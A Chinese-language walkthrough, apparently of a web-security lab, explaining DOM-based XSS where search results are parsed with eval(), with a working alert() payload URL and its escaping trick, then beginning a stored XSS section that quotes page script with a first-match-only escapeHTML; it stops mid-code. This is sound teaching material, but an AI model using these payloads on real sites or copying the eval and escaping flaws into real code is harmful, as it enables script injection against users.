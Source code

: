 可是看到搜索是xhr去发起请求获取结果再显示出来<br>
xhr发起的请求<br>
https://www.xxxx.com/search-results?search=1<br>
返回内容<br>

    {"searchTerm":"1","results":[{"id":5,"title":"Grandma's on the net","headerImage":"/content/blog/posts/8.jpg","summary":"I love old people and technology. I love the language they use, where they have to put the word 'the' in front of everything. The Facebook, The Twitter...the ones I love the most are the ones who show they have..."},{"id":3,"title":"Finding Inspiration","headerImage":"/content/blog/posts/31.jpg","summary":"I don't care who you are or where you're from aren't just poignant Backstreet Boys lyrics, they also ring true in life, certainly as far as inspiration goes. We all lack drive sometimes, or perhaps we have the drive but..."},{"id":2,"title":"Machine Parenting","headerImage":"/content/blog/posts/66.jpg","summary":"It has finally happened. The progression from using TV's and tablets as a babysitter for your kids has evolved. Meet the droids, the 21st Century Machine Parenting bots who look just like mom and dad."},{"id":1,"title":"New Year - New Friends","headerImage":"/content/blog/posts/43.jpg","summary":"It's always the same. A new year begins and those people you thought were your friends go, well, a bit weird. Your nearest and dearest, between them, have a very long list of things they want to change about themselves...."}]}
    
可以看到返回内容会赋值searchResultsObj 使用函数displaySearchResults() 显示在页面，就会出现搜索结果<br>
关键赋值这里使用了`eval('var searchResultsObj = ' + this.responseText);<br>`
由于返回内容里有值我们可控 。1的地方是可控的<br>
所以我们只要闭合"};赋值,再用//注释掉后面的,中间就可以执行任意的js语句<br>
js执行过程如下<br>
`eval('var searchResultsObj = {"searchTerm":"1"};可控地方;//","results":[]}');`<br>
**payload**<br>

     https://www.xxxx.com/?search=1\"};alert();//
     
由于json会转义`"` 变成`\"` 所以多加个\ 转义\ 使`"`逃逸出来
};
<br>闭合前面的赋值 中间可以写任意的js语句 //注释掉后面不需要的字符

----**存储+dom xss**<br>
https://www.xxxx.com/post?postId=2<br>
加载一段js<br>

    (function () {
        let xhr = new XMLHttpRequest();
        xhr.onreadystatechange = function() {
            if (this.readyState == 4 && this.status == 200) {
                let comments = JSON.parse(this.responseText);
                displayComments(comments);
            }
        };
        xhr.open("GET", "/post/comment" + window.location.search);
        xhr.send();
    
        function escapeHTML(html) {
            return html.replace('<', '&lt;').replace('>', '&gt;');
        }
    
        function displayComments(comments) {
            let userComments = document.getElementById("user-comments");
    